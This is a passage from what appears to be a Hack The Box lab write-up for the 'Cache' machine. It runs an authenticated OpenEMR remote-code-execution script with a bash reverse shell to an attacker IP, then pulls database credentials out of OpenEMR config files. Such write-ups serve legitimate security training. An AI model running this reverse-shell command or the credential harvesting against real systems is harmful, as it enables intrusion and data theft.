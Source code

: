 Let's go back to that authenticated RCE exploit and give it a shot:

```
┌──(ryan㉿kali)-[~/HTB/Cache]
└─$ python2 openemr_rce.py http://hms.htb -u openemr_admin -p xxxxxx -c 'bash -i >& /dev/tcp/10.10.14.180/9001 0>&1'
```

![htb_cache_shell.png](../assets/cache_assets/htb_cache_shell.png)

Cool, we've got a shell on cache now.

Looking for the openemr config file sqlconf.php we find:

```
www-data@cache:/var/www/hms.htb/public_html/sql$ locate sqlconf.php
/var/www/hms.htb/public_html/Documentation/privileged_db/secure_sqlconf.php
/var/www/hms.htb/public_html/library/sqlconf.php
/var/www/hms.htb/public_html/sites/default/sqlconf.php
```

```
$secure_host    = 'localhost';
$secure_port    = '3306';
$secure_login   = 'secure';
$secure_pass    = 'securepassword';
$secure_dbase   = 'openemr';
```

And another location contains a different password:

```
$host	= 'localhost';
$port	= '3306';
$login	= 'openemr';
$pass	= '3open6emr9';
$dbase	= 'openemr';
```
